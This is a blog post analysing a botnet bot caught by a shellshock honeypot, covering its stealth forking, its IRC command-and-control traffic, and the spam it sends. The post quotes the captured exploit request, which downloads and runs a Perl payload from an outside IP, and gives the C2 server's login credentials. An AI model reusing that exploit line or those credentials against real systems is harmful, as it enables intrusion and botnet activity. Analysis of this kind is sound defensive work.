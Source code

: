 ```yaml
---
layout: post
title: "A close look at an operating botnet"
description: ""
tags: [Malware, Data]
image: /assets/images/botnet/cover.png
---
```

{% include JB/setup %}

For those that don't know, a [botnet](https://en.wikipedia.org/wiki/Botnet) is a network of hacked computers that somehow connect
back to a command and control server which instructs the network to conduct malicious activities like DDOS attacks, phishing, or spam.

# What happened

This past summer, I decided to set up a honey pot server.  I hadn't done something like
that before and I was curious to see what would show up.

I set up a fresh Digital Ocean instance and installed a vulnerability that could be
remotely exploited.  I choose to use the [shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
bug and installed an [older version of bash](http://ftp.gnu.org/gnu/bash/).  Shellshock was a vulnerability in Bash that
would execute code in a environment variable.  This can easily be exploited remotely because of how CGI web servers
pass arguments through environment variables.

After installing Bash 4.2, I set up an Apache web server to serve CGI.  So common URL's
and 404's would all map to one simple, shellshock-vulnerable script:

```bash
#!/bin/bash
echo -e "Content-type:text/html\r\n\r\n"
echo "Hi $HTTP_USER_AGENT"
```

Functionally the script just returns a text page saying hi to whatever the user agent string was.  But if an HTTP request
were to look something like this:

```
GET /hello HTTP/1.1
Host:        104.131.107.238
User-Agent:  () { :;}; /bin/bash -c "cd /tmp;lwp-download -a http://23.229.121.189/ex;curl -O http://23.229.121.189/ex;wget http://23.229.121.189/ex;perl /tmp/ex*;perl ex;rm -rf /tmp/ex*"
```

Then Bash 4.2 will execute the code in the User-Agent string, which downloads a Perl script, [ex](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex), and runs it.

This after leaving the server running for a couple months, that is exactly what happened.

# Analysis

To summarize the Perl script, it's about 500 lines, connects to a server, `wileful.com`, and listens for commands.
[Some of the commands](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L298) it looks for
include `tcpflood`, `eval`, and `shell`.  This looks like functionality for a botnet bot.  

It also implements some stealth.  Upon running the program,
it immediately [forks](ihttps://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L39) a `/usr/sbin/httpd` process,
overwrites it with the Perl process using `exec`, and detaches from the parent process so it
can run independently in the background.

So you won't be able to see a new perl process running.  Instead, a new `/usr/sbin/httpd` process will be running.

```bash
root@b0b6000146fa:~# perl ex
root@b0b6000146fa:~# ps aux |grep perl
root        31  0.0  0.0   8860   648 ?        S+   16:30   0:00 grep --color=auto perl
root@b0b6000146fa:~# ps aux |grep httpd
root        29  0.0  0.0  24516  3856 ?        S    16:30   0:00 /usr/sbin/httpd
root        33  0.0  0.0   8860   644 ?        S+   16:30   0:00 grep --color=auto httpd
```

If you check the CPU usage of processes, however, `/usr/sbin/httpd` sticks out like a sore thumb because it
[polls the server socket with no timeout](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L83)
after it connects.  This spins the CPU (oops).

```
# Output from top
  PID USER      PR  NI    VIRT    RES    SHR S   %CPU %MEM     TIME+    COMMAND
  8440 root     20   0   24984   3696    408 R   99.9  0.7     1921:38  /usr/sbin/httpd
```

I wanted to see what the program communicated with the server so I put it in a docker container and ran tcpdump.
After it initially connected with the server, these messages were sent:

```bash
# Bot  (5.9.118.150 is wileful.com)
USER GNU 104.131.107.238 5.9.118.150 :GN
PASS swedenrocks
# Server
:Unreal.conf NOTICE AUTH :*** Looking up your hostname...
:Unreal.conf NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:Unreal.conf 433 * GNU :Nickname is already in use.
NICK GNU4387
# Server
PING :DEFB9868
# Bot
PONG :DEFB9868
# Server
:Unreal.conf 001 GNU4387 :Welcome to the XpowerHost IRC Network GNU4387!GNU@104.131.107.238
:Unreal.conf 002 GNU4387 :Your host is Unreal.conf, running version Unreal3.2.10.5
:Unreal.conf 003 GNU4387 :This server was created Mon Sep 28 2015 at 20:41:48 EDT
```

Some of you may immediately recognize this as IRC.  This botnet seems kind of old school: no SSL
and controlled over IRC.

Well it looks like I have a username, password, and server address.  Why don't I try logging
into the botnet with a regular IRC client?

I fired up another docker instance, [Weechat](https://weechat.org/), and a tor proxy.  After
connecting to `irc://GNU:swedenrocks@wileful.com:443`, this is what I saw:

![Connected to botnet](https://i.imgur.com/undefined.png "Connected to a botnet")

Wow, there's a total of 977 connected 'users' and 6 different channels.  As seen from tcpdump, my bot was instructed
to join channel `#113` so I figured I would do the same:

![Channel #113](https://i.imgur.com/o6MzqGl.png "Channel #113")

Either all 932 clients in the channel are pretty unoriginal when coming up with a nick or the bots are assigned a nick formatted like `GNU<ID>`.
Everyone is really shy too, because no one says anything.  After idling in the channel for a few minutes, this is all to be
seen:

![Just leaving and joining](https://i.imgur.com/5cJDsy5.png "Just leaving and joining")

Looks like bots are actively leaving and joining.  I suspect that the operaters were moving around the bots
or were continually exploiting shellshock vulnerable machines like my honey pot.

I wanted to see if I could send commands to the botnet since I had access to the channels, but after
a couple hours of unfurling the perl script, I discovered that it [authenticates](https://github.com/conorpp/fluffy-barnacle/blob/master/malware/ex#L127) commands based on the
[servername and nickname in the IRC message](https://tools.ietf.org/html/rfc2812#section-2.3.1).  I
could not spoof this since it was something only an operator on the IRC network could do.

# Back to the infected honey pot

I let my infected honey pot run for a few days and I checked out
the IRC tranactions in the pcap logs.  On intervals it would do the following:

* Download a script to send emails with attachments.
* Download a list of email addresses.
* Run the script with the list of emails and possibly other files.

This is probably for phishing attacks or spam.  No DOS attacks.

# Conclusion

I didn't want my honey pot to be contributing to illegal activities, so I shut it down.

It wasn't long before I couldn't log in to the IRC network on `wileful.com`.  

![No more access](https://i.imgur.com/bhKCFjm.png "No more access")

At first I thought I got
locked out, but after scanning it from multiple different IP addresses I never used before,
it was still unresponsive.  I suspect that the botnet moved to another server or stopped accepting new connections.


My setup for the honey pot and my results from this analysis can be found [here](https://github.com/conorpp/fluffy-barnacle).
If you have any similar experience with this or know more, please send me a message. I'd like to learn more.


{% include JB/mytwitter %}

